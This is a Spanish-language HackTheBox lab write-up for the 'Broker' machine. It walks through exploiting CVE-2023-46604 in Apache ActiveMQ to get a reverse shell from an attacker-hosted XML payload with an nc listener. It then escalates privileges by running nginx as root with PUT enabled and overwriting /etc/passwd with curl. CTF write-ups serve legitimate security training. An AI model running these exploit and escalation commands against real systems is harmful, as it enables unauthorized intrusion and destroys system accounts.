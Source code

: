 ```yaml
---
title: Broker
date: 2024-08-19
categories: [WRITEUPS, HackTheBox]
tags: [activemq]  # TAG names should always be lowercase
image: /assets/images/hackthebox/brokerlogo.png
---
```


![picture](/assets/images/hackthebox/broker1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con **NMAP**, para comprobar los  puertos abiertos de la máquina, y los servicios que corren por los puertos.

```bash
nmap -p- --open 10.10.11.243 -Pn
```
![picture](/assets/images/hackthebox/broker2.png)

Realizando otro escaneo, para encontrar las versiones de los servicios, se han encontrado los siguientes.

```bash
nmap -p22,80,1883,5672,8161,35277,61613,61614,61616 -T5 -sVC 10.10.11.243
```

![picture](/assets/images/hackthebox/broker3.png)

- 22/tcp - SSH: Protocolo seguro para acceso remoto a la máquina mediante línea de comandos.
- 80/tcp - HTTP (nginx): Servidor web Nginx.
- 1883/tcp - MQTT: Protocolo de mensajería ligero usado principalmente en dispositivos IoT.
- 5672/tcp - AMQP: Protocolo de mensajería para transferencia fiable y segura de mensajes entre sistemas.
- 8161/tcp - HTTP (Jetty): Servidor web Jetty, posiblemente utilizado para interfaces administrativas o aplicaciones dedicadas.
- 35277/tcp - tcpwrapped: Indica que el puerto está protegido, dificultando la identificación precisa del servicio.
- 61613/tcp - STOMP (Apache ActiveMQ): Protocolo de mensajería de texto simple, usado con Apache ActiveMQ.
- 61614/tcp - HTTP (Jetty): Otro servicio HTTP Jetty, posiblemente relacionado con la administración de ActiveMQ.
- 61616/tcp - ApacheMQ (OpenWire): Protocolo nativo de Apache ActiveMQ para comunicación de mensajería entre aplicaciones

Viendo cada puerto nos centraremos más en los servidores Web, ya sea puerto **80**, **8161** y **61614**.

Si introducimos la dirección **IP** en el navegador para ver el servicio **HTTP**, vemos que nos aparece un panel de **login**.

![picture](/assets/images/hackthebox/broker4.png)

Probando credenciales comunes, con ***admin/admin*** he podido acceder. 

Es un panel de **ActiveMQ**, es un bróker de mensajería de código abierto de *Apache* escrito en *Java* junto con un cliente de servicio de mensajes Java completo. Proporciona diferentes tipos de servicios de alta disponibilidad, de intercambio de archivos, de intercambio de bases de datos, etc.

![picture](/assets/images/hackthebox/broker5.png)

Podemos comprobar la versión en el apartado de admin.

![picture](/assets/images/hackthebox/broker6.png){: w="600" h="300" }

---

## **Explotación**

Buscando por internet he encontrado **CVE-2023-46604**, que es una vulnerabilidad crítica en **Apache ActiveMQ**, las versiones anteriores a **5.18.3**, **5.17.6**, **5.16.7** y **5.15.16** son vulnerables. Ésta vulnerabilidad crea en **ActiveMQ** un archivo **XML**, en el cual introduciremos una **Reverse Shell**.

Ataca directamente al puerto **61616**, el cual hemos comprobado antes que estaba abierto.

Nos vamos a clonar el siguiente repositorio de [Github](https://github.com/rootsecdev/CVE-2023-46604), que nos proporcionará una **Reverse Shell**.

```bash
git clone https://github.com/rootsecdev/CVE-2023-46604
```

Modificaremos el archivo "**poc-linux.xml**", añadiéndole nuestra **IP** y el **puerto** por el que queramos entablar la **Reverse Shell**.

![picture](/assets/images/hackthebox/broker7.png)

Seguimos los siguientes pasos por orden: creamos el servidor **HTTP**, iniciamos el **Listener** y ejecutamos el **script**.

![picture](/assets/images/hackthebox/broker8.png)

1. Ejecución del script

    ```go
    go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.11:8888/poc-linux.xml2
    ```

2. Creción del servidor **HTTP** por el puerto por el cual vamos a hacer referencia al archivo poc-linux.xml.

    ```bash
    pyhton3 -m http.server 8888
    ```
3. Creción del **Listener** por el puerto por el que hemos indicado en el archivo **poc-linux.xml**, para que nos envíe la **Reverse Shell**.

    ```bash
    nc -nlvp 9001
    ```
Y una vez hemos ejecutado todo obtenemos acceso a la máquina.

![picture](/assets/images/hackthebox/broker9.png)

En la carpeta personal encontramos la flag del usuario.

![picture](/assets/images/hackthebox/broker10.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Listando los permisos de **sudo** del usuario, vemosque no necesita contraseña para ejecutar ***nginx***.

![picture](/assets/images/hackthebox/broker11.png)

Para escalar privilegios, crearemos un archivo de configuración de ***nginx***, por el cual podamos realizar peticiones para leer o introducir archivos en la máquina vulnerable siendo **root**.

- Archivo de configuración (nginx.conf)

```bash
user root;
events {
        worker_connections 1024;
}
http {
        server{
                listen 8888;
                root /;
                dav_methods PUT;
        }
}
```

Ejecutamos el siguiente comando.

```bash
sudo /usr/sbin/nginx -c /home/activemq/nginx.conf
```

A continuación, añadiré un usuario nuevo al **/etc/passwd** con la *shell* de **root**. (la contraseña cifrada es: password123)

(<mark>IMPORTANTE:</mark> funciona, y podremos leer la flag, aunque esto borrará todos los usuarios del sistema ya que sobrescribirá el usuario añadido sobre los demás, no sería funcional, se podría **leer** la flag directamente, o añadir una clave pública al archivo de **authorized_keys**, y entrar vía **SSH** con la **clave privada**)

```bash
curl -X PUT http://localhost:8888/etc/passwd -d "pwned:$1$xyz$QeYhJjMn0Cz1qxjZ5Pl4q1:0:0:root:/root:/bin/bash"
```

Y una vez migramos de usuario, podemos leer la **flag** de **root**.

![picture](/assets/images/hackthebox/broker12.png)

![picture](/assets/images/hackthebox/broker13.png){: w="600" h="300" }